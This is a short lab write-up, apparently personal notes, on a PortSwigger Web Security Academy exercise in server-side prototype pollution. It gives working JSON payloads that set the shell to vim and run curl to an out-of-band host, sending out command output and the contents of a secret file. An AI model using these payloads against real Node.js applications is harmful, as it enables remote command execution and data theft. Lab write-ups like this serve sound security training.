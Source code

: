 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-9-vim-technique-and-b64/"}
---
```



---

This lab is similar to Lab 8 but this time the usual `execArgv`  property payload won't work. We will utilize the `vim` this time.

This is the payload:

```json
"__proto__":{
	"shell":"vim",
	"input":":! curl https://gcw2kk6asiji226oj9s90d2zxq3hr9fy.oastify.com -d $(whoami)\n"
}
```

The second catch was, the `stdout` was not showing everything, we only get a certain amount of it. For this, we will encode the output in `base64` in the bash command

```json
"__proto__":{
	"shell":"vim",
	"input":":! curl https://gcw2kk6asiji226oj9s90d2zxq3hr9fy.oastify.com -d $(ls | base64)\n"
}
```

![Pasted image 20250402220545.png](/img/user/Images/Pasted%20image%2020250402220545.png)

Decode it and we found a hidden file `secret`

![Pasted image 20250402220658.png](/img/user/Images/Pasted%20image%2020250402220658.png)\

Now just `cat` it with `base64` and decode it

```json
"__proto__":{
	"shell":"vim",
	"input":":! curl https://gcw2kk6asiji226oj9s90d2zxq3hr9fy.oastify.com -d $(cat secret | base64)\n"
}
```

![Pasted image 20250402221014.png](/img/user/Images/Pasted%20image%2020250402221014.png)
